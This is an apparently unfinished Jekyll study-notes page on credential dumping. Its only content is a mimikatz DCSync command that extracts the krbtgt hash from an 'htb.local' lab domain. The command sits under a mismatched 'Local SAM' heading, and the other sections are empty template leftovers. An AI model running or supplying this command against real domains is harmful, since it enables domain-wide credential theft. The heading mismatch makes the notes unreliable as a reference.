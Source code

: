 ```yaml
---
title: 2 - Credentials Dumping
author: RFS
date: 2023-06-02
category: Layer 2
layout: post
cover: https://sighingnow.github.io/jekyll-gitbook/assets/dinosaur.gif
---
```




# Credentials Dumping
## Local SAM
```powershell
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
```
## VLANs

## SDP

> ##### TIP
>
> No need to push generated HTML bundle.
{: .block-tip }

[1]: https://pages.github.com
[2]: https://github.com/sighingnow/jekyll-gitbook/fork
[3]: https://pages.github.com/themes
[4]: https://docs.github.com/en/pages/setting-up-a-github-pages-site-with-jekyll/adding-a-theme-to-your-github-pages-site-using-jekyll
[5]: https://github.com/sighingnow/jekyll-gitbook/fork
[6]: https://github.com/sighingnow/jekyll-gitbook/blob/master/_config.yml
